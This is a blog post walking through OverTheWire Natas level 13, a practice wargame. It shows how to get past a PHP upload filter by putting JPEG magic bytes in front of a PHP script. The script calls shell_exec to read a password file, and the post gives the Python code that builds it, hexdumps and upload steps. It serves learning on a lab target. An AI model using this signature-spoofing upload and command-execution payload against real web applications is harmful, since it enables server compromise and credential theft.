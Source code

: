 ```yaml
---
layout: post
title:  "Natas Level 13"
date:   2015-09-28 20:50
categories: natas wargame web overthewire
author: Nate
---
```

## Step 1: View the source code
The only difference between this level and natas12 is the line where the file is checked for an image signature.  If you click "View Source Code" at http://natas13.natas.labs.overthewire.org/index-source.html, you'll see this function:
<!--break-->
{% highlight javascript linenos %}
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
    }
{% endhighlight %}

The documentation for exif_imagetype() is available at php.net:
http://php.net/manual/en/function.exif-imagetype.php

Reading through the documentation, we see that it "reads the first bytes of an image and checks its signature."  Thus, we need to find a way to fake an image signature.

An astute observer might also note that the server script isn't checking for file extensions.  A php script just like the one used for natas12 will be interpreted by the webserver because of it's file extension and ignore anything else like the signature of an image until it reaches the opening '<?php' that indicates a script to follow.

## Step 2: Fake an image file signature
There are plenty of websites on the internet that provide file signatures for various image formats.  A cursory search engine query will turn up something you can use.  The initial mistake I made was thinking I could open up a file and write hex values by hand.  This was my payload:
{% highlight php linenos %}
FFD8FFE0
<?php
$password = shell_exec("cat /etc/natas_webpass/natas13");
echo "<pre>$output</pre>";
?>
{% endhighlight %}

I tried to prepend a jpeg signature to my php script and found that it still didn't fool the exif_imagetype() function.  So I grabbed a jpeg file from my laptop and did a hexdump:

```bash
~# hexdump image.jpeg
0000000 ff d8 ff e0 00 10 4a 46 49 46 00 01 01 00 00 01
```

Then I tried the same thing on my malfunctioning payload:

```
~# hexdump test.php
0000000 46 46 44 38 46 46 45 30 0a 3c 3f 70 68 70 0a 24
0000010 70 61 73 73 77 6f 72 64 20 3d 20 73 68 65 6c 6c
0000020 5f 65 78 65 63 28 22 63 61 74 20 2f 65 74 63 2f
0000030 6e 61 74 61 73 5f 77 65 62 70 61 73 73 2f 6e 61
0000040 74 61 73 31 33 22 29 3b 0a 65 63 68 6f 20 22 3c
0000050 70 72 65 3e 24 6f 75 74 70 75 74 3c 2f 70 72 65
0000060 3e 22 3b 0a 3f 3e 0a
0000067
```

Okay, so I can't write that by hand.  A little online research suggested writing some code to do it for me:
{% highlight python linenos %}
#!/bin/python
fp = open("test.php",'w')
fp.write('\xFF\xD8\xFF\xE0' + 'shell_exec("cat /etc/natas_webpass/natas14");')
fp.close()
{% endhighlight %}

So then I opened up my file with an editor:
{% highlight php linenos %}
ÿØÿà<?php print shell_exec("cat /etc/natas_webpass/natas14"); ?>
{% endhighlight %}
Those weird characters before my php script are the binary hex values that we were looking for.
Just to confirm, I took a look at the file in hexdump again:

```bash
~# hexdump test.php
0000000 ff d8 ff e0 3c 3f 70 68 70 20 70 72 69 6e 74 20
0000010 73 68 65 6c 6c 5f 65 78 65 63 28 22 63 61 74 20
0000020 2f 65 74 63 2f 6e 61 74 61 73 5f 77 65 62 70 61
0000030 73 73 2f 6e 61 74 61 73 31 34 22 29 3b 20 3f 3e
0000040 0a
0000041
```

It worked.  Now lets see if we can fool the server.

## Step 3: Upload your payload

Just upload the working file you just created, and sure enough, we got past the filter.  Natas13 gave us a link to our new file.  Follow the link, copy the password - making sure to not copy the first 4 values (those are the binary hex values used to fake the image signature).
